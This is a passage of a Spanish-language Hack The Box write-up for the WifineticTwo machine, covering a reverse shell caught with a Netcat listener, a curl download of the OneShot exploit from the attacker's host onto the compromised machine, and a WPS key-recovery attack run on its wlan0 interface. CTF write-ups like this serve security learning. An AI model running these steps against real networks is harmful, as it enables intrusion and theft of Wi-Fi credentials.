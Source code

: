 una vez colocada la IP de mi HOST & el puerto donde estaré en escucha, hacemos éstos pasos:

1. Nos ponemos en escucha con Netcat.
```bash
nc -nlvp PORT
```

2. Guardamos el código cambiado. **(En Blank Linux)**

![](/assets/images/htb-writeup-wifinetictwo/Pasted image 20240604095058.png)

esto procederá a compilar el código, y sí pusimos todo bien lo hará correctamente, ahora volvemos al **Dashboard**.

3. Iniciamos el PLC.
   
![](/assets/images/htb-writeup-wifinetictwo/Pasted image 20240604095240.png)

![](/assets/images/htb-writeup-wifinetictwo/Pasted image 20240604095320.png)

Hemos entablado conexión perfectamente, ya sólo quedaría darle [Tratamiento a la TTY](https://4uli.github.io/tratamiento-tty/#)

# Escalada de Privilegios.

Vemos que estamos como **ROOT**, lo cual de primera me da la impresión que estamos en un contenedor, pero hago "**ifconfig**", descubriendo que estamos en una máquina que no es la objetivo, por lo que tendremos que hacer movimiento lateral para pasar a esta máquina, y también descubrimos una interfaz wifi, lo cual de primeras me parece raro, ya qué esto no se suele ver en CTF's en HTB.

![](/assets/images/htb-writeup-wifinetictwo/Pasted image 20240604100509.png)

me da por curiosear en esta interfaz "**wlan0**" con la herramienta "**iwlist**"
```bash
iwlist wlan0 scan
```

![](/assets/images/htb-writeup-wifinetictwo/Pasted image 20240604100943.png)

que por el nombre del **ESSID** intuyo que es un Router, y por el protocolo de seguridad **WPA2 V1** podría aprovecharme de esto para explotar una vulnerabilidad que hay en el intercambio de claves de protocolos **WPS**, permitiéndome ver la clave en texto claro del WIFI.

Para ello utilizaremos la herramienta **OneShot** para llevar a cabo la explotación.
En nuestra máquina, obtenemos el exploit.
```bash
https://raw.githubusercontent.com/kimocoder/OneShot/master/oneshot.py
python3 -m http.server 80
```
Nos montamos un servidor en python, para descargar el recurso desde la máquina víctima.
```bash
curl 10.10.x.x/oneshot.py > oneshot.py
```

Una vez tengamos el exploit, lo ejecutamos con los siguientes parámetros:
```bash
oneshot.py -b 02:00:00:00:01:00 -i wlan0 -K
```
